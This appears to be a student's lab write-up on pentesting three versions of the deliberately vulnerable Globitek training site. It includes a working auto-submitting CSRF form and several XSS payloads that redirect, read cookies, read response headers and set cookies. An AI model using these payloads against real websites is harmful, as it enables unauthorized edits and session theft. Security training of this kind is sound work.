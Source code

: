 # Project 8 - Pentesting Live Targets

Time spent: 8 hours spent in total

> Objective: Identify vulnerabilities in three different versions of the Globitek website: blue, green, and red.

The six possible exploits are:
* Username Enumeration
* Insecure Direct Object Reference (IDOR)
* SQL Injection (SQLi)
* Cross-Site Scripting (XSS)
* Cross-Site Request Forgery (CSRF)
* Session Hijacking/Fixation

Each version of the site has been given two of the six vulnerabilities. (In other words, all six of the exploits should be assignable to one of the sites.)

## Blue

Vulnerability #1: SQL Injection. Reason: Developer forgot to properly sanitize salesperson.php query.

<img src='Blue1.gif' title='SQLI'/>

Vulnerability #2: Session Hijacking/Fixation. Reason: Website does not check if user-agent is the same as the one used when first user login, cookie set without HttpOnly and secure flag, and PHPSESSID is not regenerated and is allowed to be a year old.

<img src='Blue2.gif' title='Session Hijacking/Fixation'/>


## Green

Vulnerability #1: Username Enumeration. Reason: Developer forgot to keep span tag class the same when username is or is not found, leading to vulnerability. 

<img src='Green1.gif' title='Username Enumeration'/>

Vulnerability #2: Cross-Site Scripting. Reason: Detected that Stored XS Script was run in admin feedback panel.

<img src='Green2.gif' title='Cross-Site Scripting'/>


## Red

Vulnerability #1: Insecure Direct Object Reference. Reason: Developer forgot to check if object reference request is made public or not. Other two websites properly redirected user to public/territories folder.

<img src='Red1.gif' title='IDOR'/>

Vulnerability #2: Cross-Site Request Forgery. Reason: Developer forgot to check for CSRF token on salesperson edit form submit, check for domain name, and disallow loading responses onto iframes. 

<img src='Red2.gif' title='Cross-Site Request Forgery'/>

Script used:

```
<!DOCTYPE html>
<html>

<head>
  <title>Real Form</title>
  <meta http-equiv="content-type" content="text/html; charset=utf-8" />
</head>

<body onload="document.getElementById('f').submit();">
  <form action="https://104.197.73.39/red/public/staff/salespeople/edit.php?id=5" method="post" id="f" style="display: none;" target="hidden_results">
    <input name="first_name" value="Malcom" type="text">
    <input name="last_name" value="XX" type="text">
    <input name="phone" value="555-101-1080" type="text">
    <input name="email" value="bthepwr@salesperson.com" type="text">
  </form>
  <iframe name="hidden_results" style="display: none;"></iframe>
</body>

</html>
```

# Bonus Objective 2

- It is possible to redirect a user to another website by entering the following code in the feedback textbox Green's contact form `<script>window.location.href = "http://example.com";</script>` then submitting.
- The cookie single cookie, PHPSESSID, used throughout the website, it is set using HttpOnly, which prevents it from being accessed in javascript on modern web browsers, but older browsers (Firefox < 3, IE < 6 SP1) might be still be vulnerable, viewable by using XSS `<script>alert(document.cookie);</script>` or `<script>var xmlhttp = new XMLHttpRequest();
  xmlhttp.onreadystatechange = function() {
    if (this.readyState == 4 && this.status == 200) {
      alert(this.getAllResponseHeaders());
    }
  };
  xmlhttp.open("GET", “/“, true);
  xmlhttp.send();</script>`.
- It is possible to set a cookie by using XSS, `<script>document.cookie="username=something";</script>`, in Green's contact form.
 
Testing Bonus Objective 2 

<img src='bonus2.gif' title='Cross-Site Scripting'/>

## Notes
NONE
